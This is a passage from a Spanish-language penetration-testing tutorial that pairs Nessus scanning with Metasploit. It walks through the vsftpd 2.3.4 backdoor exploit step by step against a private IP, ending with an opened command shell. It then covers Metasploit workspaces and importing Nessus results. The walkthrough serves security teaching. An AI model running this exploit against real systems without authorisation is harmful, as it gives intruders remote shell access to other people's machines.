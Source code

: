 ```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

✔ Configurar objetivo:

```bash
set RHOSTS 192.168.1.10
```

✔ Ejecutar:

```bash
run
```

✅ Resultado esperado:

```
[*] Command shell session 1 opened
```

✔ ¡Ya tienes acceso!

---

✅ 🎯 **Explicación fácil:**

> Nessus te dice “este puerto tiene esta vulnerabilidad”.
>
> Metasploit te da el exploit para atacarla.

---

### 📌 **7️⃣ Uso avanzado con Workspaces**

✅ Metasploit permite tener **espacios de trabajo** para separar proyectos.

✅ Ver todos los workspaces:

```bash
workspace
```

✅ Crear uno nuevo:

```bash
workspace -a clienteABC
```

✅ Cambiar:

```bash
workspace clienteABC
```

✅ Importar escaneo de Nessus en ese workspace:

```bash
db_import ~/nessus/scan_result.nessus
```

✅ Así puedes organizar múltiples proyectos.

---